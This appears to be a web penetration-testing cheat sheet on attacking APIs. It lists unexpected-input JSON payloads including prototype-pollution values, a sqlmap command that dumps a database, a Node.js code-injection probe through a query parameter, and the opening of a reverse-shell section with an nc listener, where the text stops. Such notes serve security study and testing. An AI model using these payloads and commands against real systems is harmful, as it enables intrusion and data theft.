 <br />

## Sending Unexpected Data

We might be able to find anything by sending unexpected data on POST or PUT method.

```json
{"email": "test@test.com"}
{"email": true}
{"email": 1}
{"email": -1}
{"email": ["test@test.com", true]}
{"email": {"admin": true}}

// Prototype Pollution
{"email": "test@test.com", "__proto__": {"admin": true}}
{"email": {"__proto__": {"admin": true}}}
```

<br />

## XSS

If we can send post (or put) requests to API endpoints, we may be able to insert payloads and the result will be reflected as the output.  
[XSS](/exploit/web/security-risk/xss/) can be used for this exploitation.

<br />

## SQL Injection

```sh
sqlmap -u http://vulnerable.com/api/v2/fetch/?post=1 --dump --batch
```

<br />

## Node.js Remote Code Execution (RCE)

If the website uses the Node (e.g. Express), we may be able to execute the JavaScript function.

```sh
# Get current working directory in the website
/api/?key=process.cwd()
```

### Reverse Shell

We may be able to execute reverse shell using "child_process".  
First off, start listener for getting a shell in local machine.

```sh
nc -lvnp 4444
```
